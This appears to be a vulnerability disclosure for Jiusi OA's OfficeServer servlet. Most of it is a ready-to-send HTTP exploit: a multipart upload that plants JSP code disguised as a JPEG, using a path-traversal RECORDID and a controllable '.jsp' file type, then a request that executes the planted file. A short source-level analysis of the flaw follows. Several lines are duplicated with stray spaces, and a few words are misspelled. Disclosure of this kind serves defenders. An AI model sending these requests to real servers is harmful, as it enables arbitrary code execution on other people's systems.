

# Jiusi OA has an arbitrary file upload vulnerability

##### Vulnerability reproduction:

```
POST /jsoa/OfficeServer?isAjaxDownloadTemplate=false HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate

Content-Type: multipart/form-data; boundary=---------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Length: 1692

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="FileData"; filename="1.jpg"

Content-Type: image/jpeg

<% out.println("loc");new java.io.File(application.getRealPath(request.getServletPath())).delete();%>

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1

Content-Disposition: form-data; name="test"

{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":"../../CheckUser","FILETYPE":".jsp"}
{"OPTION":"SAVEFILE","isDoc":"false","moduleType":"govdocument","RECORDID":".. /.. /CheckUser","FILETYPE":".jsp"}

-----------------------------WebKitFormBoundaryPwieJwmMYPkcCnF1--
```



Access the uploaded file

```

GET /jsoa/CheckUser.jsp HTTP/1.1

Host:

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*; q=0.8,application/signed-exchange; v=b3; q=0.7

Accept-Encoding: gzip, deflate
```


Successfully uploaded and accessed

##### White Box Vulnerability Analysis:

In the servlet of the Office Server, there is a SAVEFILE, and the save2DB method is called in the SAVEFILE option


When isDoc is equal to fasle, the faveFile method of the Jinger component is called to write the file, and the filetype is controllable, causing arbitrary file upload vulnerabilities


